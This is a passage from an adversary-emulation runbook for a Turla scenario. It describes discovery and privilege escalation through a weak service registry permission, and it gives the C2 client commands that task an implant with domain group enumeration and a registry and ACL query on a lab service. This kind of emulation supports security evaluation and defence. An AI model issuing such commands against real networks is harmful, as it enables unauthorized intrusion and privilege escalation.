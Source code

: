 <br>

## Step 3 - Discovery and Privilege Escalation

:microphone: `Voice Track:`

Step 3 emulates Turla performing additional discovery using EPIC and privilege
escalation by abusing weak registry permissions.

Once C2 communications have been established between EPIC and the C2 via the
proxy server, initial network enumeration is performed on the first host
where information about the host device, local and domain groups, and network
configurations is collected. 

At this point, the domain controller `bannik (10.20.10.9)` and several domain 
administrator accounts, including `frieda`, are discovered. A custom service is
also discovered.

Next, additional enumeration of the registry is performed and a weak registry
permission for the service `ViperVPN` is discovered and the binary path is
modified to perform privilege escalation.

Eventually the service is restarted manually by a domain admin from the domain
controller to emulate the service being restarted via machine reboot. When the service restarts,
EPIC will be executed with SYSTEM level privileges.

Note that since this domain admin login is part of a whitecarded service restart,
we will not be using this logon session for subsequent activity.

### :biohazard: Procedures

* Within your Kali control server terminal window, right click and select "Split Terminal Horizontally". Be careful not to terminate the control server.

* In your lower terminal tab, copy and paste the first set of discovery commands:
```bash
cd /opt/day1/turla/Resources/control_server
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | net group "Domain Admins" /domain && net group "Domain Computers" /domain && net group "Domain Controllers" /domain && tasklist /svc'
```
* :heavy_exclamation_mark: Verify that the `ViperVPNSvc` service shows up in the tasklist output towards the end.

```bash
grep 'ViperVPNSvc' logs.txt -i
```

* This should return:
  * >```
    >viperVpn.exe                  <PID> ViperVPNSvc
    >```

* Wait 1 minute before tasking the next command to query the service and who can access it:
```bash
./evalsC2client.py --set-task 218780a0-870e-480e-b2c5dc 'exe | reg query HKLM\SYSTEM\CurrentControlSet\Services\ViperVPNSvc && powershell "$(Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\ViperVPNSvc).Access"'
```
